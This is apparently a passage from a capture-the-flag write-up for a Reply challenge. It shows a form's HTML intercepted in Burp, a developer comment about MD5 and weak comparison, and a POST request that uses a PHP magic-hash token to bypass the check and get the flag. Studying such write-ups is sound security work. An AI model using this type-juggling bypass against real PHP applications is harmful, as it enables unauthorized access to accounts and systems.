 mbs.php, which just redirects us to index.php, but if we watch the request in Burp we can see the following html response:

```html
    <div class="card-body">
        <form id="myForm" action="power-becco.php" method="POST">
            <div class="form-group">
                <label for="select1">Goat</label>
                <select class="form-control" id="select1" name="becco">
                    <option value="Mr. Olympiagoat">Mr. Olympiagoat</option>
                    <option value="TrenGoat">TrenGoat</option>
                </select>
            </div>
            <div class="form-group">
                <label for="select2">Supplement</label>
                <select class="form-control" id="select2" name="supplement">
                    <option value="Trenbolone">Trenbolone</option>
                    <option value="Creatine">Creatine</option>
                </select>
            </div>
            <div class="form-group">
                <label for="select2">Developer Token</label>
                <input type="text" name="dev_token" class="form-control" placeholder="Developer Token"/>
            </div>
        </form>
    </div>

    ...

    <script>
        // Remember to improve MD5 & weak comparison on the back-end!!
        $.ajax({
            url: $("#myForm").attr("action"), 
            method: "POST", 
            data: $("#myForm").serialize(), 
            dataType: "json", 
    </script>
```

That comments makes us think of php magic hashes, we search one for php+md5 and we submit the following form to get the flag:

```
POST /web4-1c1a2bce092184a2acfcd7ddbd00abffe1c0a587/auth/power-becco.php HTTP/1.1
Host: gamebox1.reply.it
Cookie: goatoken=<SESSION COOKIE>
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

becco=TrenGoat&supplement=Creatine&dev_token=QLTHNDT
```
